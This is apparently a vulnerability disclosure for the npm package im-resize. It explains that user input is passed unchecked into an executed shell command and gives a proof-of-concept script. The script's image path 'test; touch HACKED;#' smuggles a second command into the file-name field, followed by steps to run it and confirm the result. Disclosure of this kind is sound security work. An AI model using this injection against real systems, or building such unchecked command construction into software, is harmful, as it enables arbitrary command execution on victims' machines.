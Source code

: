 ## Overview

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check.

## Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var resize = require("im-resize");

var image = {
  path: "test; touch HACKED;#",
  width: 5184,
  height: 2623,
};

var output = {
  versions: [
    {
      suffix: "-thumb",
      maxHeight: 150,
      maxWidth: 150,
      aspect: "3:2",
    },
    {
      suffix: "-square",
      maxWidth: 200,
      aspect: "1:1",
    },
  ],
};

resize(image, output, function (error) {
  console.log();
});
```

1. Check there aren't files called `HACKED`
1. Execute the following commands in another terminal:

```bash
npm i im-resize # Install affected module
node poc.js #  Run the PoC
```

1. Recheck the files: now `HACKED` has been created :)
